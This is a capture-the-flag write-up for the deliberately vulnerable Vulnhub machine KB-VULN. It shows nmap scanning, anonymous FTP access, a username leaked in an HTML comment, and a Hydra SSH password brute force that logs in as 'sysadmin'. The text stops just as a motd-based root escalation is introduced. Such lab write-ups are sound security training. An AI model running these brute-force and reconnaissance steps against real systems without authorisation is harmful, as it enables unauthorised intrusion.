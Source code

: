 ```yaml
---
title: Vulnhub - KB-VULN
description: My writeup on KB-VULN box.
categories:
 - vulnhub
tags: vulnhub hydra ssh
---
```


![](https://www.creativefabrica.com/wp-content/uploads/2019/03/Monogram-KB-Logo-Design-by-Greenlines-Studios.jpg)

You can find the machine there > [KB-VULN](https://www.vulnhub.com/entry/kb-vuln-1,540/){:target="_blank"}

## Summary

This machine is an easy one, from source code enumeration we can detect a username and ssh brute force with it. After gaining a low-privilege shell we can exploit motd daemon and change root password. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00017s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
$ nmap -p 21,22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Let's start the enumeration on port 21 since we have to anonymous allowed, we can see a `.bash_history` file let's download it.

```
$ ftp $ip
Connected to 192.168.1.20.
220 (vsFTPd 3.0.3)
Name (192.168.1.20:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 .
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 ..
-rw-r--r--    1 0        0              54 Aug 22 17:39 .bash_history
226 Directory send OK.
ftp> get .bash_history
local: .bash_history remote: .bash_history
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .bash_history (54 bytes).
226 Transfer complete.
```

At the time is useless, maybe we can use it later.

```
$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

## Shell as sysadmin

Let's move on, port 80 source code gives us a username probably system one because i can't find a way to use it on web.

```html
$ curl http://$ip/
<!DOCTYPE html>
<html lang="en">
<head>
<title>OneSchool &mdash; Website by Colorlib</title>
<meta charset="utf-8">

...data...

<!-- Username : sysadmin -->
```

Let's try to ssh brute force with it, using rockyou.txt. & here we go!

```
$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt $ip ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 00:20:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.20:22/
[22][ssh] host: 192.168.1.20   login: sysadmin   password: password1
```

```
$ ssh sysadmin@$ip
sysadmin@192.168.1.20's password: 

sysadmin@kb-server:~$ whoami;id
sysadmin
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Shell as root

Before we found something interesting from FTP, the `/etc/update-motd.d/` & `00-header`. Motd(Message Of The Day daemon) is the welcome message that show to a user upon the terminal login. Modifying the /etc/motd file you can change the welcome message. But for better configuration you can use the scripts located in the `/etc/update-motd.d` directory.


